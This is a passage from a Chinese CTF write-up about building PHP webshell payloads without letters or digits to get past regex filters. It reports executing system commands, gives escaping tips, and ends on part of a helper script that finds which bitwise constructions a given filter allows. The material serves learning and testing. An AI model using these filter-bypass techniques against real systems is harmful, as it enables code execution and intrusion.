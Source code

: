 使用新payload调试可以看到成功得到了`_POST`。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0e39d2ac4bf5d620231a98d086c152d189400d91.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0e39d2ac4bf5d620231a98d086c152d189400d91.png)  
成功执行系统命令。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-123ca5022a2329573bc86d14890ecce7e965d5ff.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-123ca5022a2329573bc86d14890ecce7e965d5ff.png)  
如果添加了`\`的过滤后计算不出payload也别慌，在`\`前面再添加一个`\`把它转义掉就行了，很简单的道理。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5452423cf515f22198b6a64598b7f95bc641e862.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5452423cf515f22198b6a64598b7f95bc641e862.png)  
成功构造出`_POST`。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-133e15d67e4982247a394d5e3803c4a7c254d70c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-133e15d67e4982247a394d5e3803c4a7c254d70c.png)  
不仅只有`\`，像`"`/`'`/`)`都有可能影响payload的语义，具体的要看情况进行调整，这里只是提供一个解决思路。

后记
==

这类题目最根本的还是考察对PHP代码特性的了解和变通能力。而这个脚本旨在快速检测出某正则过滤下可采用的构造方式与能构造的字符串，它还需要结合调试进行适当的调整才能解决题目，这就是我更愿意称它为辅助脚本的原因。那么如果检测出来全部是`Fail.`的情况，就可以考虑非常规的进阶玩法了。

参考资料
====

<https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html>  
<https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html>

附录
==

```php
<?php
$target = isset($_REQUEST['target']) ? $_REQUEST['target'] : "phpinfo";
$regx = isset($_REQUEST['regx']) ? $_REQUEST['regx'] : "/[A-Za-z0-9]/";
$white_list_chr = array();
for ($i = 1; $i <= 255; $i++) {
    if (!preg_match($regx, chr($i))) {
        $white_list_chr[] = chr($i);
    }
}
//print_r($white_list_chr);

$not_chars = array();
if (!preg_match($regx, '~')) {
    foreach ($white_list_chr as $chr) {
        $not_chars[~$chr] = ord($chr);
    }
}
//print_r($not_chars);

$and_chars = array();
if (!preg_match($regx, '&amp;')) {
    foreach ($white_list_chr as $chr1) {
        foreach ($white_list_chr as $chr2) {
            $and_res = $chr1 &amp; $chr2;
            if (null === $and_chars[$and_res]) {
                $and_chars[$and_res] = array(ord($chr1), ord($chr2));
            }
        }
    }
}
//print_r($and_chars);

```